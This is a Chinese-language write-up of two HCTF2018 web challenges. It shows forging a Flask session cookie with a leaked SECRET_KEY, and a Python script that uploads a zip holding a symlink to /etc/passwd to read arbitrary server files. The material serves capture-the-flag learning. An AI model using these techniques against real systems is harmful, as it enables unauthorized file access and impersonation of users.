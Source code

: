 ```yaml
---
title: "HCTF2018 WriteUp"
date: 2018-11-12 00:18:29
tags: [hctf, writeup]
---
```


![](https://i.loli.net/2019/03/08/5c82768fe4d67.jpg)  
和师傅们肝了两天, 最后排名 25, 看看一堆没做出来的题, 感到自己深深的菜... 



0x01 admin
----------

在改密码的地方有 hint,  
![](https://i.loli.net/2019/03/08/5c8276960e9a1.jpg)  

得到源码后第一个发现的是可能存在条件竞争, 题目里面是先将 `session` 里面的 `name` 给改了再去验证密码的  

![](https://i.loli.net/2019/03/08/5c82769adc533.jpg)  

但之后发现 `flask` 不是像 `php` 一样将 `session` 保存在服务端, 而是保存在 `cookies` 里面的, 所以这里其实是不存在条件竞争的. 最后发现其实 `SECRET_KEY` 已经给我们了, 完全可以伪造 `session`.  

![](https://i.loli.net/2019/03/08/5c82769e190bc.jpg)  

这里估计是怕太明显, `environ` 里面是没 `SECRET_KEY` 的 (看了其他的 WriteUp 其实就是出题人环境没配好 233), 所以直接用 `cjk123` 就可以了. 在 [github](https://github.com/noraj/flask-session-cookie-manager/stargazers) 上可以找到用 `SECRET_KEY` 来生成 `session` 的小工具, 先解码看看结构后改一下 `name` 就可以了. 最后把现在的换成生成的 `session` 访问 `index` 就可以 get flag 了, 不过这 flag... 是我们非预期解还是这个题目是中间没做完强行改了一下放出来的 0.0  

![](https://i.loli.net/2019/03/08/5c8276a0c91d9.jpg)

0x02 hide and seek
------------------

通过 `cookie` 可以看出来跟上一题一样是 `flask`, 题目这么强调 `zipfile`, 所以肯定跟这个有关, 在谷歌上搜到一个通过在里面加 `../../../file` 的文件来导致目录穿越的, 但是试了下并没有用. 最后还是师傅想到用软链试试, 结果正是如此, 可以通过软链来任意文件读取, 但比较麻烦的是不像 `php`, 直接在 `URL` 上就给你文件名, 我们得想办法把文件名给找到读出源码才能下一步. 这里写个 `python` 脚本来简化我们的工作

```python
import zipfile
import requests


z_info = zipfile.ZipInfo("symlink")
z_info.external_attr = 2717843456 # Magic Number. Meaning this is a symlink.
z_file = zipfile.ZipFile("test.zip", mode="w")
z_file.writestr(z_info, f"/etc/passwd")
z_file.close()

cookie = open("pysession").read()
sess = requests.session()
sess.cookies["session"] = cookie


files = {
    "the_file" : ("test.zip", open("test.zip", "rb"), "application/zip"),
}

res = sess.post("http://hideandseek.2018.hctf.io/upload", files=files)

if res.text:
    print(res.text)
```